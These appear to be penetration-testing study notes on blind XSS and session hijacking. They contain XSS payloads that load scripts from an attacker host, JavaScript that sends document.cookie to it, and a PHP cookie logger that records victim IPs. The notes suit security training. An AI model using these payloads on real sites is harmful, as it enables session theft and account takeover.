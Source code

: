 # Session Hijacking
## Blind XSS Detection
### When the vulnerability is triggered on a page we don't have access to. Occasionally occurs with forms only accessible by certain users (e.g. Admins)
### We can use a trick, which is to use a JavaScript payload that sends an HTTP request back to our server.
### But still we have 2 issues :
1. We don't know which specific field is vulnerable
2. We don't know what XSS payload to use

## Remote script
```HTML
<script src="http://IP:PORT/script.js"/>
```

## Using a PHP listening server instead of netcat
```BASH
$ mkdir /tmp/tmpsrogue
$ cd /tmp/tmpsrogue
$ vi index.php #write our index.php file
$ sudo php -S 0.0.0.0:80
$ PHP 7.4.15 Development Server (http://0.0.0.0:80) started
```

## Finding a working XSS payload
```HTML
<script src=http://OUR_IP/fullname></script> 
<script src=http://OUR_IP/username></script> 
....
```
## After finding a working XSS let's proceed to XSS exploitation and Session Hijacking attack
```JS
document.location='http://OUR_IP/index.php?c='+document.cookie;
new Image().src='http://OUR_IP/index.php?c='+document.cookie; //this one is better because it looks less malcious
```

## PHP script to split and write to a txt file the session cookies
```PHP
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

